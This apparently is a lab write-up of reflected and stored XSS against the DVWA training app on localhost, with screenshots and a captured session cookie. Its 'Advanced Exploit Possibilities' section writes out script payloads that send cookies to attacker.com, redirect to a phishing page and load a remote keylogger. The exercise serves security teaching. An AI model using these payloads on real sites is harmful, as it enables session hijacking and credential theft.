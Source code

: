 # Attack Simulation 4 – Cross-Site Scripting (XSS) - Reflected & Stored

## 🎯 Objective

Demonstrate exploitation of both **Reflected** and **Stored** Cross-Site Scripting (XSS) vulnerabilities in the DVWA application. Simulate the **impact** of these attacks by exfiltrating the session cookie to prove real-world consequences like session hijacking.

---

## 🧠 What is XSS?

**Cross-Site Scripting (XSS)** is a client-side code injection attack. It occurs when an attacker is able to inject malicious scripts (usually JavaScript) into content served to users.

When the browser receives this malicious content, it executes it **in the context of the vulnerable application** — as if it were trusted.

### Types Demonstrated:
- **Reflected XSS** – Injected code is reflected immediately via the URL or form input.
- **Stored XSS** – Injected code is stored on the server (e.g., in a database) and executed every time a user accesses the infected page.

---

## 🧪 Environment

- **Target**: DVWA running on Ubuntu (`localhost`)
- **Security Level**: `Low` (to allow raw script injection)
- **Attacker**: Local browser (simulating a victim user)

---

## 1️⃣ Reflected XSS Exploitation

### 🔧 Vulnerable Input:
URL parameter `name` in `/xss_r.php`

### 🧬 Payload Used:
```html
<script>alert('XSS')</script>
```

![Reflected XSS Attack webssite](../../screenshots/attack-simulation-4/XSS%20website.png)

*Figure 1: Website*

![Reflected XSS Attack to see if it works](../../screenshots/attack-simulation-4/Reflected%20XSS.png)

*Figure 2: XSS (Reflected) attack*

### 💥 Effect:
- JavaScript executed immediately
- Proved that the application reflects unescaped input back into the browser
- No filtering or sanitization was applied

---

## 2️⃣ Stored XSS Exploitation

### 🔧 Vulnerable Input:
DVWA > `XSS (Stored)` module > Guestbook form

- **Name**: `cookie`
- **Message**:
```html
<script>alert(document.cookie)</script>
```

### 💥 Effect:
- Malicious JavaScript stored in backend database
- Triggered automatically for any user visiting the guestbook
- Alert displayed **PHPSESSID and security level**

### ✅ Demonstrated Real Impact:
```js
alert(document.cookie);
```

This revealed:
```
PHPSESSID=ufj3lg39cbj36me010uedeb9l; security=low
```

![XSS attack to reveal cookies used](../../screenshots/attack-simulation-4/Cookie.png)

*Figure 3: XSS attack to reveal cookies used*

This proves:
- Session hijacking is possible
- Any attacker could impersonate another user

---

## 🔐 Advanced Exploit Possibilities

Instead of just `alert()`, a real attacker could use:

### 📤 1. Steal Cookie (exfiltration)
```html
<script>new Image().src='http://attacker.com/log?cookie=' + document.cookie</script>
```

Would silently send the session to a malicious server.

### 🔁 2. Redirect to Phishing Page
```html
<script>window.location='http://malicious-site.com/login'</script>
```

Would redirect the victim to an external fake login page for credential harvesting.

### 📹 3. Load Keylogger
```html
<script src="http://attacker.com/keylogger.js"></script>
```

Executes external malicious JS hosted elsewhere.

---

## 📌 Summary

| Aspect | Detail |
|--------|--------|
| Vulnerabilities | Reflected XSS, Stored XSS |
| Exploited? | ✅ Yes |
| Demonstrated | Code execution, Cookie theft |
| Impact | Session hijacking, arbitrary JS execution |
| Tools | Browser only (manual injection) |
| Payloads Used | `<script>alert(...)`, `document.cookie` |
| Screenshots | Attached for both reflected and stored cases |

---

## ✅ Conclusion

We successfully exploited both **Reflected** and **Stored XSS** in DVWA. While we used `alert()` and `document.cookie` for demonstration purposes, the same flaw can be escalated to session hijacking, phishing, data exfiltration, and browser exploitation in real-world targets.

---

> 🔴 This confirms a **critical vulnerability (CWE-79)** and would be rated as **High** or **Critical** in most web application pentests.
